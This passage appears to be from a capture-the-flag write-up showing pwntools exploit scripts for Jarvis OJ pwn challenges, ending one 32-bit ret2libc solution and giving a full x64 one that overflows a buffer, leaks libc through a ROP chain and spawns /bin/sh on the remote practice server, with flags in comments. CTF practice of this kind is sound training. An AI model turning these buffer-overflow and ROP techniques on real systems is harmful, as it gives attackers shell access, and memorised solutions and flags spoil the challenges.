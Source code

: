    ```python
     r.sendline(payload1)
     
     leak_addr = u32(r.recv(4))
     libc_base = leak_addr - libc_start_libc
     system_addr = libc_base + system_libc
     binsh_addr = libc_base + binsh_libc
     
     payload2 = padding + p32(system_addr) + p32(func) + p32(binsh_addr)
     r.recvuntil("Input:\n")
     r.sendline(payload2)
     r.interactive()
     #CTF{d85346df5770f56f69025bc3f5f1d3d0}
   ```

* #### [XMAN]level3(x64)

   ```python
   from pwn import *
   r = remote('pwn2.jarvisoj.com', 9883)
   elf = ELF('./level3_x64')
   libc = ELF('./libc-2.19.so')
   
   pwn_addr = 0x4005E6
   sys_libc = libc.symbols['system']
   write_libc = libc.symbols['write']
   binsh_libc = libc.search('/bin/sh').next()
   
   write_plt = elf.plt['write']
   write_got = elf.got['write']
   
   pop_rdi_ret = 0x4006b3
   pop_rsi_p_r_ret = 0x4006b1
   padding = 'a' * (0x80 + 0x8)
   
   payload = padding
   payload += p64(pop_rdi_ret) + p64(1)
   payload += p64(pop_rsi_p_r_ret) + p64(write_got) + p64(8)
   payload += p64(write_plt)
   payload += p64(pwn_addr)
   
   r.recvuntil('Input:\n')
   r.sendline(payload)
   leak_addr = u64(r.recv(8))
   #print(hex(leak_addr))
   
   libc_base = leak_addr - write_libc
   binsh = binsh_libc + libc_base
   system = sys_libc + libc_base
   
   payload2 = padding + p64(pop_rdi_ret) + p64(binsh) + p64(system) + p64(0)
   r.recvuntil('Input:\n')
   r.sendline(payload2)
   r.interactive()
   #CTF{b1aeaa97fdcc4122533290b73765e4fd}
   ```
